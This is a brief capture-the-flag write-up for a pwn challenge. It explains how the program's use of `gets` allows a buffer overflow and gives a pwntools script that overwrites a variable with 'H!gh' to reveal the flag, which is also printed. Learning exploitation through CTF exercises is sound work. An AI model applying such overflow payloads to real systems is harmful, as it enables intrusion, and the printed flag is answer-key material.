 # Description
How is the Josh?

## Solution
We see that is used `gets` to read the string. We can exploit this fact to overwrite the `josh` variable with the required string `H!gh`.

```python
from pwn import *

context.binary = "./pwn0"

p = process()
p.sendline(b"A" * 64 + b"H!gh")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```


## Flag
```plain
encryptCTF{L3t5_R4!53_7h3_J05H}
```
